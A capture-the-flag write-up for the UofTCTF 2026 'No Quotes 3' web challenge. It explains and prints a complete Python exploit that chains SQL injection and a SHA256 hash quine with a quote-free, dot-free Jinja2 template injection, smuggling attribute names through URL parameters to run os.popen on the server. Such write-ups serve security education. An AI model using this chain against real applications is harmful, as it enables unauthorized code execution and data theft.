


## UofTCTF 2026 - No Quotes 3 Write-up



### Step 1: Analyzing the New Constraints

This is the third iteration of the "No Quotes" series, and the difficulty has been ramped up significantly. Analyzing the source code reveals two major changes compared to the previous version:

1.  **Enhanced WAF (No Dots!):**
    The blacklist now includes periods (`.`). This is a nightmare for Server-Side Template Injection (SSTI) because standard payload construction relies heavily on dot notation (e.g., `request.application.__globals__`).
    ```python
    def waf(value: str) -> bool:
        blacklist = ["'", '"', "."]
        return any(char in value for char in blacklist)
    ```

2.  **Hash Verification (Hash Quine):**
    The password check no longer compares plaintext values. It compares the **SHA256 hash** of the input password against the value stored in the database.
    ```python
    if not ... or not hashlib.sha256(password.encode()).hexdigest() == row[1]:
    ```
    This means our SQL Injection must return the SHA256 hash of the payload we just sent. We need a **Hash Quine**.

### Step 2: Exploitation Strategy

We need to combine a Hash Quine with a "Dotless" and "Quoteless" SSTI payload.

#### Part A: The Hash Quine
Since the database is MariaDB (MySQL compatible), we can use the `SHA2()` function.
*   **Logic:** `SHA2(REPLACE(Template, Placeholder, HEX(Template)), 256)`
*   This will calculate the hash of the reconstructed string on the database side, which will match the hash calculated by Python on the server side.

#### Part B: Dotless & Quoteless SSTI
How do we execute `request.application.__globals__...` without quotes or dots?

1.  **Generating Strings:**
    We use the Jinja2 dictionary trick: `dict(args=1)|list|min` results in the string `"args"`.

2.  **Bypassing Dot Notation:**
    Instead of `object.attribute`, we can use item access `object['attribute']` (if the object supports it) or filters like `|attr(string)`.
    The script exploits the fact that we can access the URL query parameters via `request['args']`.

3.  **The "Parameter Smuggling" Technique:**
    Generating complex strings like `__builtins__` or `/readflag` without quotes/dots inside Jinja is painful and long.
    **Solution:** We pass these strings as **keys** in the URL query string (e.g., `?application=&__globals__=...`).
    Inside the template, we access `request['args']` (using the dict trick), convert it to a list, and then access our smuggled strings by index (`k[0]`, `k[1]`, etc.).

    *   **Payload concept:** `request[k[0]][k[1]]...` where `k` is the list of keys from the URL.

### Step 3: The Exploit Script

I updated the solution script to handle the Hash Quine logic and the parameter-based SSTI injection.

```python
import requests
import binascii
import re

URL = "https://no-quotes-3-0c39ff67ea668688.chals.uoftctf.org"
URL = URL.rstrip('/')

def to_hex(s):
    return binascii.hexlify(s.encode()).decode().upper()

def solve():
    print(f"[*] Target: {URL}")

    # 1. Crafting the Dotless/Quoteless SSTI Payload
    # We retrieve keys from the URL query params (request.args).
    # 'dict(args=1)|list|min' generates the string "args".
    # We cast request['args'] to a list to get specific keys by index.
    # The chain builds: request['application']['__globals__']...
    
    ssti_payload = (
        ""
        "{{request[k[0]][k[1]][k[2]][k[3]](k[4])[k[5]](k[7])[k[6]]()}}"
    )
    
    # 2. Username: Backslash Trick to inject into password
    username_val = ssti_payload + "\\"
    username_hex = to_hex(username_val)

    # 3. Password: SHA256 Hash Quine
    # The DB must return the SHA256 hash of the payload to pass the Python check.
    template = f") UNION SELECT 0x{username_hex}, SHA2(REPLACE(0x?, 0x3F, HEX(0x?)), 256) #"
    template_hex = to_hex(template)
    password_val = template.replace("?", template_hex)
    
    data = {
        "username": username_val,
        "password": password_val
    }
    
    # 4. Smuggling Payload Components via URL Parameters
    # These keys map to k[0], k[1], etc. in the payload.
    # Order is crucial.
    ssti_params = {
        "application": "",  # k[0]
        "__globals__": "",  # k[1]
        "__builtins__": "", # k[2]
        "__import__": "",   # k[3]
        "os": "",           # k[4]
        "popen": "",        # k[5]
        "read": "",         # k[6]
        "/readflag": ""     # k[7]
    }

    print(f"[*] Sending Hash Quine payload...")

    try:
        s = requests.Session()
        
        # Step 1: Login via POST (Injects payload into session)
        r = s.post(f"{URL}/login", data=data)
        
        # Step 2: Trigger SSTI on /home via GET
        # We MUST send the params here so the template can find the keys.
        print("[*] Triggering SSTI on /home...")
        r_home = s.get(f"{URL}/home", params=ssti_params)
        content = r_home.text

        flag = re.search(r"uoftctf\{.*?\}", content)
        
        if flag:
            print(f"\n[+] FLAG FOUND: {flag.group(0)}\n")
        else:
            if "Invalid credentials" in r.text:
                print("[-] Error: Hash mismatch or SQL error.")
            elif "No quotes" in r.text:
                print("[-] Error: WAF blocked the request.")
            else:
                print("[-] Flag not found.")

    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == "__main__":
    solve()
```

### Step 4: Capturing the Flag

The script injects the payload. The database hashes it, satisfying the login check. When `/home` is accessed with the specific URL parameters, the Jinja2 template dynamically builds the exploit chain using the provided keys, effectively bypassing the restriction on dots and quotes.



### Flag
`uoftctf{r3cuR510n_7h30R3M_m0M3n7}`